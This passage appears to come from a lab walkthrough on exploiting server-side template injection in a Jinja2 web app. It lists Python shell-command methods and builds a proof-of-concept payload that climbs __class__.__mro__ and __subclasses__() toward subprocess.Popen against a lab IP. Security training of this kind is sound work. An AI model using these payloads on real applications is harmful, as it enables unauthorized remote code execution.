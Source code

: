 
## syntax

After having identified the template engine, we now need to learn its syntax.

Where better to learn than the official [https://jinja.palletsprojects.com/en/2.11.x/] 

Always look for the following, no matter the language or template engine:
- How to start a print statement  
- How to end a print statement
- How to start a block statement
- How to end a block statement

[https://jinja.palletsprojects.com/en/2.11.x/api/#jinja2.Environment]

```
{{    start of a new print statement
}}    end of a print statement
{%    start of a block statement
%}    end of a block statement
{#    comment
```

## exploitation 

At this point, we know:
- The application is vulnerable to SSTI
- The injection point
- The template engine
- The template engine syntax

﻿**Planning**  
﻿
Let's first plan how we would like to exploit this vulnerability.

Since Jinja2 is a Python based template engine, we will look at ways to run shell commands in Python. A quick Google search brings up a [https://janakiev.com/blog/python-shell-commands/ ]that details different ways to run shell commands. I will highlight a few of them below:

```python
# Method 1 
import os os.system("whoami") 
# Method 2 
import os os.popen("whoami").read() 
# Method 3 
import subprocess subprocess.Popen("whoami", shell=True, stdout=-1).communicate()
```

**Crafting a proof of concept (Generic)**  

Combining all of this knowledge, we are able to build a proof of concept (POC).

payload
```python
# Jinja2 does not use import statement => fail
http://10.10.254.18:5000/profile/{% import os %}{{ os.system("whoami") }}
#-------------------------------------------

# need to use __class__
http://10.10.254.18:5000/profile/{{ ''.__class__ }}
# class attr .__mro__  to climb object tree
http://10.10.254.18:5000/profile/{{ ''.__class__.__mro__ }}
# we want root object 
{{ ''.__class__.__mro__[1] }}

#----- class method .__subclasses__()
{{ ''.__class__.__mro__[1].__subclasses__() }}

# this calls subprocess.Popen
```